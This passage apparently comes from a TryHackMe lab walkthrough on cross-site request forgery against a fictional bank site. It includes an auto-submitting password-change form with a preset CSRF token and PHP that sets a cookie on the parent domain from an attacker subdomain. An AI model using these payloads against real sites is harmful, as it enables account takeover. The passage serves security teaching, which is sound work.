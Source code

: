   ```
![email screenshot](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/1ef37fe99417df64e42cb2c3afd73740.png)\


* The email contained a link to an attacker-controlled domain (`attacker.mybank.thm`) with a password update form similar to a bank one. The form also has a CSRF token already set as a hidden parameter.

```html
<form method="post" action="http://mybank.thm:8080//changepassword.php" id="autos">
        <label for="password">Password:</label>
        <input type="password" id="password" name="current_password" value="<?php echo "GB82MYBANK5697" ?>" required>

        <label for="confirm_password">ConfirmPassword:</label>
        <input type="password" id="confirm_password" name="confirm_password" value="Attacker Unique Password" required>
		<input type="hidden" id="csrf_token" name="csrf_token" value="Decrypted Token Value">
		

        <button type="submit" name="password_submit"  id="password_submit" >Update Password</button>
    </form>
	
	</div>
<script>
document.getElementById('password_submit').click(); 
</script>
        
```

* In the above code, the attacker will update the payload and add the `base64 value` of Josh's bank account as a new CSRF token value.&#x20;
* Navigate to Josh's mailbox at the `mailbox.thm:8081` to see the new mail with the crafted CSRF payload.

![selected email screenshot](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/32ef629045775c0616918e9caf0536a5.png)\


* Once you click the link, it will redirect you to the attacker-controlled subdomain page and auto-submit the form to change the password. The attacker contains a code similar to that of the change password page of `mybank.thm`; however, he is also setting a cookie with the following code so that it will be forwarded to the main domain `mybank.thm` while triggering a CSRF attack.\

* ```php
  <?php
  ...
  setcookie(
      'csrf-token',               
      base64_encode("GB82MYBANK5699"),            
      [
          'expires' => time() + (365 * 24 * 60 * 60), 
          'path' => '/',                         
          'domain' => 'mybank.thm',                          
          'secure' => false,                      
          'httponly' => false,                 
          'samesite' => 'Lax' 
      ]
  );
  ?>
  ```
* The attacker knows the hidden form parameter, and the form will submit all the data, including the hidden fields, to the original change password page of `mybank.thm:8080`. Following is the server-side code, let's see what is happening on the server:\

  ```